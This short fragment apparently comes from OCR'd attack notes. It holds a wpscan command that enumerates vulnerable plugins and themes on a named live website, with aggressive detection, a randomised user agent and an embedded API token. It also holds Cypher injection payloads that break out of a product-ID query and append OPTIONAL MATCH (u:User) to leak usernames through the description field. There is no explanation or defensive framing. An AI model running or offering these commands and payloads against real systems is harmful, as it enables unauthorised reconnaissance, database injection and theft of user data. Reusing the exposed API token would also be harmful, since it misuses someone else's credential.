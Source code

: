 
```python

wpscan --url https://ramontolentino.com/ --enumerate vp, vt --plugins-detection aggressive --api-token 2eDLKKmeCr9jmIMNaIB3QHbFBO0UPilO7JvHkmBxzLA --random-user-agent -t 20

```


"MATCH (result: Product { id: "<id>" }) RETURN result// " }) RETURN result


MATCH (result: Product { id: "8f056c44-df4a-4b15-b2c5-466536bed3cd" }) OPTIONAL MATCH (u:User) RETURN result { .*, description: u.username } // " }) RETURN result

"MATCH (result:Product {id: "8f056c44-df4a-4b15-b2c5-466536bed3cd"}) OPTIONAL MATCH (u:User) RETURN result {.*, description: u.username} // " }) RETURN result